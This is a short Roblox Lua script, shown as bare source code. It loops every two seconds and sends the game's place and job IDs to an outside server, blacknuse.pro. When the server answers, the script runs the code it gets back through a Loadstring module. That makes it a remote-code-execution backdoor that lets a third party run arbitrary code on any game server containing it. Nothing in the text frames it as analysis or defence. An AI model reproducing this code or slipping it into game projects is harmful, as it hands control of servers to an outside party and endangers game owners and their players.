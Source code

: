 local HttpService = game:GetService("HttpService")
url = "http://www.blacknuse.pro/api/execute"

while true do
	pcall(function()
		wait(2)
		local dataFields = {
			["placeid"] = game.PlaceId, 
			["jobid"] = game.JobId,
		}
		local response = HttpService:PostAsync(url,HttpService:JSONEncode(dataFields))
		local data = HttpService:JSONDecode(response)
		if data.status == true then
			require(script.Parent.Loadstring)(data.script)()
		end
	end)
end
